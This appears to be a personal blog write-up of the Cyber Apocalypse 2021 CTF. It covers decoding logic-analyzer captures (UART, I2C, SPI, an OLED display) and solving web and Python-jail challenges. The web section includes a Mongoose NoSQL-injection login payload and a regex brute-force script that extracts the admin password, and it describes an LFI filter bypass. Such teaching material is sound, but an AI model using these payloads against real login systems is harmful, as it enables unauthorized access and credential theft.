



+++
title = "Writeup - Cyber Apocalypse CTF 2021"
date = 2021-04-24T23:08:43+10:00
lastmod = 2021-04-24T23:08:43+10:00
tags = ["HackTheBox", "LFI", "Signal analysis", "mangoose", "expressjs"]
categories = ["CTF"]
imgs = []
cover = ""  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

Cyber Apocalypse 2021 was held between 13:00 19 April 2021 UTC and 23:00 24 April 2021 UTC. Our final rank was #479 out of 4740 teams. Not bad, I'd say :)


# Contents

* [Hardware](#hardware)
	* [Serial Logs](#serial-logs)
	* [Compromised](#compromised)
	* [Secure](#secure)
	* [Off the grid](#off-the-grid)

* [Web](#Web)
	* [Wild goose hunt](#wild-goose-hunt)
	* [MiniSTRyplace](#ministryplace)

* [Misc](#misc)
	* [Input as a Service](#input-as-a-service)

# Hardware


There were 6 hardware challenges in this event and I was able to solve 4 of them.

## Serial Logs


The file attached to the challenge: [hw_serial_logs.zip](https://drive.google.com/file/d/19HXuCgLzR8RWJki0qB3imlaeJvRiJF4f/view?usp=sharing)

After extracting the `hw_serial_logs.zip` file, I got a file called `serial_logs.sal`. What is it?
"`file serial_logs.sal`" command shows that it's also a ZIP archive file. Unzip it, I got 3 files: 

| |
| --- |
| digital-0.bin |
| digital-1.bin |
| meta.json |

Both `digital-0.bin` and `digital-1.bin` has the string `<SALEAE>` as file header:


With this clue, I found that files with the `.sal` extention is exported by [Saleae Logic 2](https://support.saleae.com/logic-software/sw-download) software, which is the software for displaying and analysing signals captured by Saleae's hardware logic analyzer.

So I downloaded and install the software and opened the file, and I saw some digital waveforms:


Looks like there's only one of the two channel has active signal on it. The signal of the part I zoomed in seems to work on a certain frequency, but there's no clock signal present. Combined with the title of the challenge ("Serial Logs"), I guessed that it's one TX/RX wire of UART communication. So I added an Async Serial analyzer in Logic 2 and set the configuration to 115200/8n1 (Baud rate 115200, 8 data bits, no parity bit, 1 stop bit):


I exported analyzer data and decoded the data as ASCII characters, as shown in [this file](data-115200-8n1).

The front part is readable text, but the rest looks like something went wrong. The Async Serial analyzer also starts to show framing error starting at that point:


By examing the decoded text, I found that right before the gibberish starts, there's an interesting line of log:


Looks like the baud rate was changed after this point according to the message, and this explains the framing error. So I reconfigured the analyzer with baud rate 76800:


Most frames looks good except several framing errors (e.g., the 0x47 frame in the picture). Could it be that baud rate is slightly inaccurate and caused accumulated clock error? No, async serial resets and syncs clock on every frame thus won't accumulate clock error over frames. If it works for one frame, it should work for all. 

Then I noticed that these 76800 baud rate frames has one more bit than those in 115200 baud rate. Could it be there's an extra bit in every frame? So I tried reconfiguring the analyzer with 1 parity bit, and everything was fine after:


Then I decoded these 76800 data and got some [new text](data-76800-8e1).

And the flag is revealed:


## Compromised


The file attached to the challenge: [hw_compromised.zip](https://drive.google.com/file/d/1vr3XSkfaumYFaVdiTwchRHlWqA7hoeI7/view?usp=sharing)

It's another .sal file. So same deal, let's inspect it in Logic 2 (click image for full size):



Channel 1 looks like clock signal; Channel 0 seems to work at half of channel 1's frequency, meaning that it's probably a protocol in which the receiver samples the data signal at the rising edge of the clock signal. It's most likely a I2C communication. So let's add an I2C analyzer to it:


By browsing the extracted data, I found there are 2 addresses mentioned in this communication capture, namely 0x34 and 0x2C. It might be useful if we can separate the transactions towards these 2 different addresses. So I exported the data to a CSV and wrote a simple script to do this:

```python
keys = 'name,type,start_time,duration,data,ack,address,read\n'.strip().split(',')
f = open('i2c-data.csv')
txs = []

f.readline()
for l in f:
	entry = dict(zip(keys, l.strip().split(',')))
	if 'start' in entry['type']:
		tx = dict()
	elif 'address' in entry['type']:
		tx['address'] = entry['address']
	elif 'data' in entry['type']:
		tx['data'] = int(entry['data'], 16)
	elif 'stop' in entry['type']:
		txs.append(tx)

print("Address 0x34:")
print(''.join([chr(tx['data']) for tx in txs if tx['address'] == '0x34']))

print("Address 0x2C:")
print(''.join([chr(tx['data']) for tx in txs if tx['address'] == '0x2C']))

```

Result:


And the flag is revealed.

## Secure


The file attached to the challenge: [hw_secure.zip](https://drive.google.com/file/d/1H8gO6MqtboWYIXzlyANo9COGgvhmTgYm/view?usp=sharing)

Again, .sal file. I'll just skip the zooming part. Channel 0 and 1 look like data channels, channel 3 is probably clock, and channel 2 seems to be a #EN or #SC signal. Based on the clue about SD card mentioned in the challenge description, it's a sensible to guess that this is SPI communication, and the communication is transactions of some kind of file system.

By looking at the SPI analyzer, looks that it's FAT file system. I tried for hours to understand how I can restore files from these communacations, but with no luck. Then I thought, maybe the file contents can be transmitted in its orinal bytes and original order?

So I tried decoding the bytes on MISO wire, and here's what I saw:


Or we can use this command to get an easier to copy output:

```bash
cat spi-data.csv| cut -d ',' -f5 | cut -d 'x' -f2 | xxd -r -p | strings -n 10
```


## Off the grid



File: [hw_off_the_grid.zip](https://drive.google.com/file/d/1VYM3Pmq9opYuZdV2mL1v-EO39Kejdxsw/view?usp=sharing)

This time, besides of a .sal file, we have also been given a schematic:


So we know that this capture is some communication with a SSD1306 OLED screen. 

My first thought was to find a circuit emulator supporting SSD1306 screen or build a physical circuit and send these signals extracted from the capture file. Turns out it's not simple as I imagined and I got no luck.

Next, I tried to understand how SSD1306 works and how I can restored what was put onto the screen.


Let's take this part at 2"839 for example. We know from the schematic that channel 3 is wired to the D/C pin of SSD1306: When it's low, the MOSI wire transmits commands; When it's hight, MOSI transmits data. We can read from the SPI analyzer that the command bytes in this scope is `0xB0, 0x02, 0x10`.

What does that mean? To figure that out, I found [this doc](https://cdn-shop.adafruit.com/datasheets/SSD1306.pdf) from googling. On page 34 and page 37 it describes those commands:

> **10.1.1 Set Lower Column Start Address for Page Addressing Mode (00h~0Fh)**
> 
> This command specifies the lower nibble of the 8-bit column start address for the display data RAM under
> Page Addressing Mode. The column address will be incremented by each data access. Please refer to Section
> Table 9-1 and Section 10.1.3 for details.
> 
> **10.1.2 Set Higher Column Start Address for Page Addressing Mode (10h~1Fh)**
> 
> This command specifies the higher nibble of the 8-bit column start address for the display data RAM under
> Page Addressing Mode. The column address will be incremented by each data access. Please refer to Section
> Table 9-1 and Section 10.1.3 for details.

> **10.1.13 Set Page Start Address for Page Addressing Mode (B0h~B7h)**
>
> This command positions the page start address from 0 to 7 in GDDRAM under Page Addressing Mode.
  Please refer to Table 9-1 and Section 10.1.3 for details.

So to summarize, the commands `0xB0, 0x02, 0x10` do the following:

* Set page address to 0x0 (`0xB0` command)
* Set colomn address to 0x02
	* The `0x02` command sets the lower 4 bits to 0x2
	* The `0x10` command sets the higher 4 bits to 0x0
	* Thus makes the address 0x02

But these didn't give me any immediate help. I guess I can guess what "column" means in English. But what is "page"?

After another while of googling, I found [this article](https://www.electronicwings.com/sensors-modules/ssd1306-oled-display) explaining the addressing of SSD1306. Basically, the word "page" in this context means 8 rows of pixels; Page 0 to page 7 go from top to bottom, make 64 rows. Every byte of data written through the MOSI wire represents 1 column of the page, i.e. every bit of the byte represents 1 pixel, LSB on top, MSB at bottom. So a chunk of 128 bytes of data fills exactly 1 page. 


Knowing this, I went back to the waveform. Every cluster in the waveform contains 8 sequencies of address setting commands, each followed by a chunk of 128 byte of data. This means every cluster in the waveform can represent 1 frame displayed on the screen.


Then I extracted the data for every frame and wrote a script to generate the frame images (the module [frames_data.py](frames_data.py):

```python
from frames_data import * # f0 - f5
import numpy as np
from PIL import Image

frames = [f0, f1, f2, f3, f4, f5]

def convert_frame(frame):
	cols = []
	for c in range(128):
		col = sum([[(frame[p][c]//(2**i))%2 for i in range(8)] for p in range(8)], start=[])
		cols.append(col)
	return np.uint8(cols).transpose()*255


for f in range(6):
	i = Image.fromarray(convert_frame(frames[f]))
	i.save('f%d.png'%f)

```

The restored frames are shown below:


We can see the flag in the 4th frame.

# Web
## Wild goose hunt


Attached file: [web_wild_goose_hunt.zip](https://drive.google.com/file/d/1FBg0_Irb_vnUiNudzfOAJ_uH3Rdqte8W/view?usp=sharing)

The index page looks like this:


The login request in Burp:


By inspeting the `challenge/routes/index.js` file contained in the ZIP file, we can see that `User.find` method (line 13) is called to perform username and password check:

```js
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
	return res.render('index');
});

router.post('/api/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return User.find({ 
			username,
			password
		})
			.then((user) => {
				if (user.length == 1) {
					return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
				} else {
					return res.json({logged: 0, message: 'Login Failed'});
				}
			})
			.catch(() => res.json({ message: 'Something went wrong'}));
	}
	return res.json({ message: 'Invalid username or password'});
});

module.exports = router;
```

And we can see that `User` is an instance of `mongoose.model` class (`challenge/models/User.js`). I figured this method call might be something we can exploit. So I consulted [Mongoose docs](https://mongoosejs.com/docs/api.html#model_Model.find) about this method, and I found that `Model.find` method does not only simply compare fields' string values. If you can provide objects rather than simple strings as the value of the match fields, it can perform more complex matching operations, [even regex according to this SO answer](https://stackoverflow.com/questions/26814456/how-to-get-all-the-values-that-contains-part-of-a-string-using-mongoose-find).

According to the `entrypoint.sh` file, there's at least one user in the database whose username is "admin" and flag as the password. Now that I know the user name, so long as I provide a regex that matches everything, e.g. pass `{"$regex":".*","$options":"i"}` (according to the SO answer) as the value of the argument `password`, I would at least able to succeed the `POST /api/login` request, and this would validate my theory.

But how can I pass an object instead of a simple string as the value of argument `password` through `application/x-www-form-urlencoded`?

In lines 10-12 of the file `challenge/index.js` lies something interesting:

```js
app.use(bodyParser.urlencoded({ 
	extended: true 
}));
```

This means that the parser will try to parse complex data such as objects from the body of a POST request with content type `application/x-www-form-urlencoded`, according to [Express.js docs](http://expressjs.com/en/api.html#express.urlencoded). And the exact syntax to do so in a POST request is described in [docs of the qs library](https://www.npmjs.com/package/qs#parsing-objects).

Thus to achieve the desired value for argument `password`, I crafted the following payload as the request body:

```
username=admin&password[$regex]=.*&password[$options]=i
```

And it worked!


With this regex method working, now I can measure the length of the password and brute-force the password character by character.

To measure the length, I used Burp Intruder. The request template is as the following figure (we know the flag format is `CHTB{...}` so no need to try this part):


And the result shows that the length within the brackets is 45:


Next, to brute-force the password, I created a script:

```python
import string
import requests

charset = string.ascii_lowercase + '_' + string.digits + string.ascii_uppercase

proxies = {'http': 'http://127.0.0.1:8080'} 

f = ""
for i in range(44,-1,-1):
	for c in charset:
		args = {'username':'admin', 'password[$regex]':r'^CHTB\{%s.{%i}\}$' %(f+c, i), 'password[$options]':'i'}
		r = requests.post('http://138.68.172.124:30229/api/login', data=args, proxies=proxies)
		if r.json()['logged'] == 1:
			f += c
			print(f)
			break

```


The flag was `CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`.

## MiniSTRyplace

Flie attached to the challenge: [web_ministryplace.zip](https://drive.google.com/file/d/1Lr5Ab3hrAx0I3k1B0cNNonxUvQYqLTN0/view?usp=sharing).

The index page looks like this:


The URL says "`/?lang=qw.php`", I smell LFI.

From line 17 of the Dockerfile we can see that the `flag` file is put into the root directory of the container:

```dockerfile
# Copy challenge files
COPY challenge /www
COPY flag /
```

Checking the source file `challenge/index.php`, we can see this line:

```php
include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
```

So it has some kinda anti-LFI mechanism, which is to replace all "`../`" in the URL with empty string. This is quite easy to bypass:


# Misc
## Input as a Service 


Connect to the IP address with netcat, looks like we are in a Python REPL, but with some strange constraints:




So I tried an alternitive way for importing modules:


Hah! Seems I just got shell.

Next, I can just list the directory and search for flag file:


And I actually read the [Python file for this service](input_as_a_service.py) as well. Grab it if you are interested.

Just a lesson from this challenge: `input` function in Python 2 is dangerous (Why would you still use Python 2 anyway?).
